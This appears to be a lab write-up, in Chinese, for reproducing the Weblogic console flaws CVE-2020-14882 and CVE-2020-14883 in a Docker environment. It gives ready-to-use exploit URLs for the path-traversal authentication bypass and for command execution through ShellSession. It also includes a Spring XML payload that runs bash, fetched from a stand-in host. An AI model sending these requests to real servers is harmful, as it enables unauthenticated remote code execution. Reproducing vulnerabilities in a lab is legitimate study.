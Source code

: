 # Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## 漏洞环境

执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:7001/console`即可查看到后台登录页面。

## 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码：

![](2.png)

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现`touch /tmp/success1`已成功执行：

![](3.png)

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。
